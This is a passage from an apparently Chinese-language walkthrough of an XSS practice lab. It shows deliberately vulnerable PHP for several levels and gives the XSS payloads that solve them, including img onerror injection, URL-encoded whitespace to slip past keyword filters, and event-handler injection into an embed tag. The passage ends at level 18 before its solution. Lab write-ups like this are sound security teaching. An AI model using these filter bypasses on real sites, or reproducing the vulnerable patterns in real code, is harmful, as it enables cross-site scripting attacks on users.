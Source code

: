 直接在包含的页面里用 &lt;script&gt; 触发不了,用了 img 标签.

遵循 SOP,调用第一关代码.使用单引号包裹,否则变成注释.

payload: `?src='level1.php?name=test<img src=1 onerror=alert(1)>'`

---

# level 16

```php
<?php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```

这一关过滤了空格,/ 等连接符,用 URL 编码绕过过滤

payload: `%3Cimg%0dsrc=1%0donerror=alert(2)%3E`

---

# level 17

```php
ini_set("display_errors", 0);
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
```

这一关将 arg01 和 arg02 的参数分别写入 src 的值中,并过滤了尖括号,导致不能闭合标签.

在 embed 标签中尝试在 arg02 写入事件来触发 XSS.

payload: `arg01=a&arg02=%20onmousedown=alert(1)`

如果一直无法触发,可能是因为无法加载 swf 文件,建议可以换360浏览器做这一题

---

# level 18

```php
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
```
